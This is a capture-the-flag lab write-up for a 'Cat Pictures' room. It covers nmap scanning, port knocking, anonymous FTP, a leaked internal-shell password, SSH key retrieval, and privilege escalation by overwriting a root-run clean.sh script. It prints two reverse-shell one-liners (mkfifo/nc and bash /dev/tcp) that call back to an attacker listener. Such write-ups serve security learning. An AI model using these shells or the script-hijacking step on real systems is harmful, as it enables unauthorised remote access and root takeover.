

# Cat Pictures
I made a forum where you can post cute cat pictures!


## Enumerations
Let's run a nmap scan see what we got.
```
# Nmap 7.91 scan initiated Sat Jun  5 16:54:16 2021 as: nmap -sV -sC -oN nmap/scan 10.10.137.255
Nmap scan report for 10.10.137.255
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  ssl/http-proxy?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  5 16:55:55 2021 -- 1 IP address (1 host up) scanned in 98.59 seconds
```
Looks like we got a website. 


Let's poke around little bit. After sometime I found some hint to what to do. It was in the **Your first forum**.


Let's knock to the server. I use knock.py to knock the server. It's a simple script from this repo :

https://github.com/grongor/knock

You can simply use this command to exectue the script.
```
./knock 10.10.64.47 1111 2222 3333 4444
```
Now we knock the ports. Let's run nmap scan again see what comeback. 

```
# Nmap 7.91 scan initiated Sun Jun  6 15:47:29 2021 as: nmap -sC -sV -A -oN nmap/after_the_knock 10.10.64.47
Nmap scan report for 10.10.64.47
Host is up (0.15s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           162 Apr 02 14:32 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.48
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun  6 15:48:02 2021 -- 1 IP address (1 host up) scanned in 33.45 seconds
```
We got a FTP server and inside it we got a note.txt . Let's see what was that 

```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is *******.
- catlover
```
We got a password and port 4420. Let's look into port 4420


```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/cat_pictures]
└──╼ $nc -v 10.10.64.47 4420
10.10.64.47: inverse host lookup failed: Unknown host
(UNKNOWN) [10.10.64.47] 4420 (?) open
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
sardinethecat
Password accepted
ls
bin
etc
home
lib
lib64
opt
tmp
usr
```
We got a shell but they said we can't use cd to look around. Now what we do !!

Thx to **pentestmonkey** we got a revshells.

This was my revshell :
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.2.48 4444 >/tmp/f
```
When we slap that badboy into that netcat shell and setup a netcat listener BOOM !!! we got a shell. Here we can use **cd** command.

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/cat_pictures]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.48] from (UNKNOWN) [10.10.64.47] 55986
/bin/sh: 0: can't access tty; job control turned off
# /bin/bash -i
bash: cannot set terminal process group (1589): Inappropriate ioctl for device
bash: no job control in this shell
I have no name!@cat-pictures:/# ls -la
ls -la
total 56
drwxr-xr-x 10 1001 1001 4096 Apr  3 01:30 .
drwxr-xr-x 10 1001 1001 4096 Apr  3 01:30 ..
-rw-------  1 1001 1001   50 Apr  1 20:23 .bash_history
-rw-r--r--  1 1001 1001  220 Apr  1 20:21 .bash_logout
-rw-r--r--  1 1001 1001 3771 Apr  1 20:21 .bashrc
-rw-r--r--  1 1001 1001  807 Apr  1 20:21 .profile
drwxrwxr-x  2 1001 1001 4096 Apr  2 23:05 bin
drwxr-xr-x  2    0    0 4096 Apr  1 20:32 etc
drwxr-xr-x  3    0    0 4096 Apr  2 20:51 home
drwxr-xr-x  3    0    0 4096 Apr  2 22:53 lib
drwxr-xr-x  2    0    0 4096 Apr  1 20:28 lib64
drwxr-xr-x  2    0    0 4096 Apr  2 20:56 opt
drwxr-xr-x  2    0    0 4096 Jun  6 10:58 tmp
drwxr-xr-x  4    0    0 4096 Apr  2 22:43 usr
I have no name!@cat-pictures:/home# ls         
ls
catlover
I have no name!@cat-pictures:/home# cd catlover
cd catlover
I have no name!@cat-pictures:/home/catlover# ls -la
ls -la
total 28
drwxr-xr-x 2 0 0  4096 Apr  3 01:34 .
drwxr-xr-x 3 0 0  4096 Apr  2 20:51 ..
-rwxr-xr-x 1 0 0 18856 Apr  3 01:35 runme
```
When we look into that run me file we got some nonsence there. But among them my cat eyes caught this

```
rbeccaPlease enter your password: Welcome, catlover! SSH key transfer queued! touch /tmp/gibmethesshkeyAccess Deniedd
```
Maybe rebecca is the password. who knows we can try it.

```bash
 have no name!@cat-pictures:/home/catlover# ./runme
./runme
Please enter yout password: rebecca
Welcome, catlover! SSH key transfer queued! 
I have no name!@cat-pictures:/home/catlover# ls -la
ls -la
total 32
drwxr-xr-x 2 0 0  4096 Jun  6 11:06 .
drwxr-xr-x 3 0 0  4096 Apr  2 20:51 ..
-rw-r--r-- 1 0 0  1675 Jun  6 11:06 id_rsa
-rwxr-xr-x 1 0 0 18856 Apr  3 01:35 runme
I have no name!@cat-pictures:/home/catlover# 
```
BOOM! *rebecca* was the password. We got a private key. If you not get it go back to previous dir and comeback and check it will be here.

Let's change the permission for ssh key and connect to the **ssh** .

```bash
┌─[visith@parrot]─[~/CTF/thm/cat_pictures]
└──╼ $sudo chmod 600 id_rsa 
[sudo] password for visith: 
┌─[visith@parrot]─[~/CTF/thm/cat_pictures]
└──╼ $ssh catlover@10.10.64.47 -i id_rsa 
The authenticity of host '10.10.64.47 (10.10.64.47)' can't be established.
ECDSA key fingerprint is SHA256:7HBac/JH7EKQik9kL1l9GMjCgLN/69gfXalu5cbPi4U.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

root@7546fa2336d6:/# 
root@7546fa2336d6:/# ls
bin  boot  etc   lib    media  opt      post-init.sh  root  sbin  sys  usr
bitnami  dev   home  lib64  mnt    post-init.d  proc          run   srv   tmp  var
root@7546fa2336d6:/# cd root
root@7546fa2336d6:/root# ls
flag.txt
root@7546fa2336d6:/root# cat flag.txt
*******
```
After some waste of time I ran a linpeas script to make sure everything didn't miss. There was a “/opt/clean” filesystem that was exactly the same as “overlay”.



When I went to the “/opt/clean” location, there was a “clean.sh” script in there. It cleaned the “/tmp” directory completely.

Let's try to execute a rev shell and setup a nc listener. This was my revshell :
```
echo "bash -i >& /dev/tcp/10.9.2.48/9999 0>&1" > clean.sh
```
We got a call back to our listener.
```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/cat_pictures]
└──╼ $nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.9.2.48] from (UNKNOWN) [10.10.64.47] 51398
bash: cannot set terminal process group (2590): Inappropriate ioctl for device
bash: no job control in this shell
root@cat-pictures:~# ls
ls
firewall
root.txt
root@cat-pictures:~# cat root.txt
cat root.txt
Congrats!!!
Here is your flag:
******
```
Thx for reading !!
